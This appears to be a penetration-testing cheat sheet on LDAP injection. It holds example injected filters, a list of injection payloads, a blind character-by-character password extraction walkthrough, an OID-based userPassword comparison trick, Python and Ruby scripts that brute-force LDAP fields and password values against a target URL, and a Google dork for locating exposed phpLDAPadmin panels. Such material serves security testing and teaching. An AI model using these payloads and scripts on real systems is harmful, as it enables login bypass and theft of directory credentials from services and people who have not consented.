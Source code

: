 # LDAP injection

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Exploitation

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover valid LDAP fields

```python
#!/usr/bin/python3

import requests
import string

fields = []

url = 'https://URL.com/'

f = open('dic', 'r') #Open the wordlists of common attributes
wordl = f.read().split('\n')
f.close()

for i in wordl:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

Ref. [5][5]

### Special Blind LDAP Injection (without "*")

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Ref. [5][5]

```ruby
#!/usr/bin/env ruby

require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''

(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

By [noraj](https://github.com/noraj)

## Google Dorks

```
intitle:"phpLDAPadmin" inurl:cmd.php
```

Ref. [5][5]

## References

Injection:

* [OWASP LDAP Injection](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [Quals ECW 2018 - Maki](https://maki.bzh/courses/blog/writeups/qualecw2018/)
* \[5] [LDAP Injection - HackTricks][5]

Normal use:

* [How To Manage and Use LDAP Servers with OpenLDAP Utilities](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [How To Configure OpenLDAP and Perform Administrative LDAP Tasks](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* SSH key authentication via LDAP
    - [How to setup LDAP server for openssh-lpk](https://openssh-ldap-pubkey.readthedocs.io/en/latest/openldap.html)
    - [openssh-lpk.ldif](https://github.com/Lullabot/openldap-schema/blob/master/openssh-lpk.ldif)
    - [Setting up OpenLDAP server with OpenSSH-LPK on Ubuntu 14.04](https://blog.shichao.io/2015/04/17/setup_openldap_server_with_openssh_lpk_on_ubuntu.html)
    - [SSH key authentication using LDAP](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap)
    - [FR] [SSH et LDAP](https://wiki.lereset.org/ateliers:serveurmail:ldap-ssh)
    - [SSH Public Keys in OpenLDAP](http://pig.made-it.com/ldap-openssh.html)

[5]:https://book.hacktricks.xyz/pentesting-web/ldap-injection
